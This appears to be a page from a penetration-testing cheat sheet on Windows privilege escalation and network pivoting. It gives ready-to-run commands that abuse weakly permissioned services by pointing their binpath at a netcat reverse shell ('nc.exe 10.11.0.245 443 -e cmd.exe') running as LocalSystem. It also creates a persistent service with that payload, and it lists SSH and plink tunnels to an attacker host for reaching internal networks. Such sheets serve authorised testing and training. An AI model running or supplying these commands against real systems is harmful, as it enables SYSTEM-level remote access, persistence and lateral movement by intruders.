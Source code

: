 ```text
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```

### Creating Persistence

```text
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
```

### Port Forwarding / SSH Tunneling

#### SSH: Local Port Forwarding

```bash
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

#### SSH: Dynamic Port Forwarding

```bash
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

#### SSH: Remote Port Forwarding

```bash
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

#### Proxy Tunnel

```bash
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```
